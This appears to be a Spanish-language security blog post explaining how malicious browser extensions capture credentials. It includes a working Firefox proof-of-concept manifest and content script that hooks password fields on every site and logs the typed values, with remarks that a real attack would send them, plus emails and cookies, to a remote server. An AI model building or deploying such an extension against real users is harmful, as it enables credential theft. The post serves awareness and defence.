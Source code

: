 ```yaml
---
layout: post
title: Extensiones maliciosas capturando credenciales 
category: hacking,extension,web,javascript
permalink: "blog/extensiones-maliciosas"
published: yes
---
```




# Protegiendo tu navegador: Cómo las extensiones maliciosas pueden comprometer tus credenciales

Las extensiones del navegador, diseñadas para mejorar nuestra experiencia en línea pueden convertirse en una herramienta peligrosa si esta creada para propositos maliciosos.
Pueden usarse por ejemplo para:
* Robo de datos: Pueden capturar información posible sensible como contraseña y datos bancarios
* Seguimiento no autorizado: Rastrean la actividad de navegación del usuario sin su consentimiento
* Inyección de anuncios: Insertan publicidad no deseada en las páginas web visitadas.
* Botnet: Utilizan los recursos del navegador para actividades maliciosas en red

Estas extensiones aprovechan los permisos otorgados por el usuario para acceder a datos sensibles y realizar acciones no autorizadas.

### Prueba de Concepto - Ejemplo

Una prueba de concpeto básica podría involucrar la creación de una extensión para Firefox que observe los campos de contraseña. Un ejemplo simplificado:

1. Crea un nuevo directorio para tu extensión, ejemplo: Observer
2. Crea un archivo `manifest.json`
```js
{
  "manifest_version": 2,
  "name": "Password Observer",
  "version": "1.0",
  "description": "Observa campos de contraseña (solo para fines educativos)",
  "permissions": ["<all_urls>"],
  "content_scripts": [
    {
      "matches": ["<all_urls>"],
      "js": ["content.js"]
    }
  ]
}
```

3. Creamos un archivo `content.js` donde esta la lógica del código

```js
function observePasswords() {
  const passwordFields = document.querySelectorAll('input[type="password"]');
  
  passwordFields.forEach(field => {
    field.addEventListener('change', function(e) {
      console.log('Contraseña capturada:', e.target.value);
      // En un escenario real, aquí se enviarían los datos a un servidor externo
    });
  });
}

observePasswords();

// Observar cambios en el DOM para capturar campos añadidos dinámicamente
const observer = new MutationObserver(mutations => {
  for(let mutation of mutations) {
    if(mutation.type === 'childList') {
      observePasswords();
    }
  }
});

observer.observe(document.body, { childList: true, subtree: true });
```
Este código observa los campos de contraseña en la página y registra sus valores cuando cambian. En un escenario real de ataque, en lugar de usar console.log, se enviarían estos datos a un servidor externo.

> Para usar esta extensión en Firefox:

1. Abre Firefox y ve a about:debugging
2. Haz clic en "Este Firefox"
3. Haz clic en "Cargar complemento temporal..."
4. Selecciona el archivo manifest.json de tu extensión

![image](https://github.com/user-attachments/assets/03de74b1-9d51-49d1-99b1-d2bd8b2eb6cb)

![image](https://github.com/user-attachments/assets/7887e712-4f8a-4780-baa8-99a5672961b4)

Podemos verificar que la extensión esta habilitada , hacemos la prueba en una plataforma muy conocida de Streaming `Netflix` abrimos la consola de desarrollador con F12 e ingresamos cualquier usuario por ejemplo `test@gmail.com` y la contraseña `extension123!` Podemos ver que al momento de introducir la contraseña y enviar la solicitud nos captura la contraseña en el console.log() de la herramienta de desarrollador. Esto es posible sosfiticarla para capturar el email, cookies, password y enviarlo a un servidor remoto.



### Aviso

Es crucial enfatizar que el desarrollo o uso de herramientas para capturar credenciales sin autorización es ilegal y éticamente incorrecto. Esta información se proporciona únicamente con fines educativos para comprender mejor las amenazas de seguridad y cómo protegerse contra ellas.

Saludos.



